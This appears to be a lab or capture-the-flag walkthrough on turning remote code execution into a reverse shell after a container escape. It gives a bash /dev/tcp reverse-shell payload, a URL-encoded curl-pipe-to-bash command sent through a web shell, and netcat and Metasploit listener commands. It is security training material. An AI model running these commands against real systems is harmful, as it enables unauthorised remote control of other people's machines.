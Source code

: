 
Now that you have escaped the container and have RCE on the host, you need to create a reverse shell and obtain a way to gain a stable shell onto the box.  

There are several ways to obtain a reverse shell on a box once you have RCE. Outlined below are a few of the most common methods used.  

- netcat
- bash
- python
- perl

For more information about various payloads and reverse shells, you can use check out these two resources. [https://github.com/swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings). [http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

In this task, we will be covering how to use a basic bash reverse shell along with URL encoding to drop a script directly into bash. Using URL encoding to our advantage, we can ease much pain when executing a payload as often special characters such as `&, ', !, ;, ?` will cause serious issues.  

To begin, we will create a simple payload by placing the below code into a `.sh` file.

`#!/bin/bash   bash -i >& /dev/tcp/tun0ip/53 0>&1`

The first line will declare that we are using the bash scripting language. The second line is the payload itself. For more information about this payload, check out this explain shell, [https://explainshell.com/explain?cmd=bash+-i+>%26+%2Fdev%2Ftcp%2F127.0.0.1%2F53+0>%261](https://explainshell.com/explain?cmd=bash+-i+%3E%26+%2Fdev%2Ftcp%2F127.0.0.1%2F53+0%3E%261).  

Now that you have the payload ready to go, you can start up a local web server on your attacking machine using either _http.server_ or _updog_ or _php_. You can find example usage for all three below.  

- `python3 -m http.server 80`
- `updog`
- `php -S 0.0.0.0:80`

Once you have a server started hosting the file, we can compile a command to execute the file. Find the command below.  

Unencoded command: `curl http://10.x.x.x:80/shellscript.sh|bash &`

As we have already mentioned, special characters can cause issues within URLs. To combat this, we can utilize URL encoding on any special characters. Find the encoded command below.

Encoded command: `curl%20http%3A%2F%2F10.x.x.x%3A80%2Fshellscript.sh%7Cbash%20%26`

The above command is entirely ready to go. You will only need to change the IP address and the file name within the command; this does not require you to change any of the URL encoding present.

You can now start a listener using Netcat or Metasploit to catch your reverse shell once executed. Find commands below to start listeners.  

- `nc -lvnp 53`
- `use exploit/multi/handler`

Now that you have the full payload and execution command ready, you can use it and the RCE to gain a shell onto the box. Find the full command below.  

Command used: `curl 'http://192.168.100.1:8080/shell.php?cmd=curl%20http%3A%2F%2F10.x.x.x%3A80%2Fshellscript.sh%7Cbash%20%26'`


---

# Your job
